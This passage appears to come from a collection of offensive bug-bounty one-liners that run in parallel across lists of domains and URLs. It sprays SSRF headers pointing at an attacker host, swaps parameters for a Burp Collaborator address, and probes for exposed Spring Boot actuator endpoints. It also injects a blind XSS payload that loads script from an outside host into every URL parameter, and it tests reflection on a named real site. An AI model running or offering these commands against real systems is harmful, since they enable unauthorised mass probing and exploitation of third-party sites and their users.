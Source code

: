 ```
cat live-domains | rush -j40 'if curl -skL -o /dev/null "{}" -H "CF-Connecting_IP: $2" -H "From: root@$2" -H "Client-IP: $2" -H "X-Client-IP: $2" -H "X-Forwarded-For: $2" -H "X-Wap-Profile: http://$2/wap.xml" -H "Forwarded: $2" -H "True-Client-IP: $2" -H "Contact: root@$2" -H "X-Originating-IP: $2" -H "X-Real-IP: $2"; then echo "{}" | ts; fi' | tee -a ssrf-headers-out.txt

```
**On Urls containing params
Explanation – Takes urls list, replaces the params value to the burp collaborator server and passes it to rush for parallel working.**
```
cat urls.txt | qsreplace "your.burpcollaborator.server" | rush -j40 'if curl -skL "{}" -o /dev/null; then echo "{}" | ts; fi' | tee -a ssrf-output-log.txt
```
Test Case 2
```
cat params.txt | qsreplace "http://$1" | rush -j40 'if curl -skL "{}" -o /dev/null; then echo "{}" | ts; fi' | tee -a ssrf-output-log.txt
```
## 7.`SpringBoot Actuator Check One Liner`
**On Live Domains
Explanation – Takes live domains list and checks wheather the springboot actuators are publicly accessible or not.
```**
cat live-domains | rush -j40 'if curl -skI -m 10 "{}/env" | grep -i "x-application-context" || curl -sk -m 10 "{}/actuator/env" | grep -q "sping.config.location\|spring.application.name\|JAVA_HOME" || curl -sk -m 10 "{}/env" | grep -q "sping.config.location\|spring.application.name\|JAVA_HOME" || curl -sk -m 10 "{}/actuator" | grep -q '{"_links":{"self"' || curl -sk -m 10 "{}/actuator/configprops" | grep -q "org.springframework.boot.actuate\|beans" || curl -sk -m 10 "{}/configprops" | grep -q "org.springframework.boot.actuate\|beans"; then echo "SpringBoot Actuator Found on {}"; fi' &
```
**On Live urls with params
Explanation – Takes urls list and checks wheather the application is using springboot or not.**
```
cat params.txt | rush -j40 'if curl -skI -m 10 "{}" | grep -i "x-application-context"; then echo "SpringBoot application context header Found on {}"; fi'
```
## 8. `Drop Blind XSS payload on list of Urls with params`
**Explanation – Takes urls file as input, replaces the param value with blind xss payload and issues the request with 40 workers running parallely.**
```
cat urls.txt | qsreplace '"><script src="https://script.xss.ht"></script>' | rush -j40 'curl -sk "{}" -o /dev/null'
```
## 9.`Reflection Check (XSS) on one domain by extracting Hidden params`
**Explanation – Extracts the hidden parameters from the page and checks wheather it can be vulnerable to xss or not.**
```
curl -skL "https://in.yahoo.com" | grep 'type="hidden"' | grep -Eo 'name="[^\"]+"' | cut -d'"' -f2 | xargs -I@ sh -c 'if curl -skL https://in.yahoo.com/?@=testxss | grep -q "value=testxss"; then echo "reflection found from @ parameter"; fi'
```
## 10.`Find hidden parameters via Crawl on list of urls`
**Explanation – Takes urls list and extracts hidden parameters from the list of urls and saves unique params in the file.**
```
cat alive.txt | rush 'curl -skL "{}" | grep "type\=\"hidden\"" | grep -Eo "name\=\"[^\"]+\"" | cut -d"\"" -f2 | sort -u' | anew params.txt
```
## 11.`Find Secrets in Javascripts files via crawling`